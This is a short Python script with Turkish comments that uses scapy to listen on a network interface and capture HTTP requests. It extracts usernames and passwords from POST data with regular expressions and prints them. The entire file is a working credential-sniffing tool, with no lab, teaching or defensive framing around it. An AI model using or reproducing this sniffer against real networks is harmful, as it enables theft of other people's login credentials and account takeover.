 from scapy.all import *
from scapy.layers.http import HTTPRequest  # HTTP isteklerini analiz etmek için
import re

# Arayüzü belirtelim
INTERFACE = "eth0"

# Kullanıcı adı ve şifreyi yakalamak için regex desenleri
USERNAME_REGEX = re.compile(r"(username|user|login|email)[^=]*=([^&\s]+)", re.IGNORECASE)
PASSWORD_REGEX = re.compile(r"(password|pass|pwd)[^=]*=([^&\s]+)", re.IGNORECASE)

def packet_callback(packet):
    # HTTP isteği içeriyorsa
    if packet.haslayer(HTTPRequest):
        http_layer = packet[HTTPRequest]
        ip_layer = packet[IP]

        # URL'yi yazdır
        url = f"http://{http_layer.Host.decode()}{http_layer.Path.decode()}"
        print(f"[+] HTTP İsteği: {ip_layer.src} -> {url}")

        # POST verisini yakala
        if packet.haslayer(Raw):
            load = packet[Raw].load.decode(errors='ignore')
            
            username_match = USERNAME_REGEX.search(load)
            password_match = PASSWORD_REGEX.search(load)
            
            if username_match or password_match:
                print("\n[***] Kullanıcı Bilgisi Yakalandı!")
                if username_match:
                    print(f"Kullanıcı Adı: {username_match.group(2)}")
                if password_match:
                    print(f"Şifre: {password_match.group(2)}")
                print("\n")

# Paketleri dinlemeye başla
print(f"[+] {INTERFACE} arayüzü üzerinden HTTP trafiği dinleniyor...")
sniff(iface=INTERFACE, prn=packet_callback, store=0)
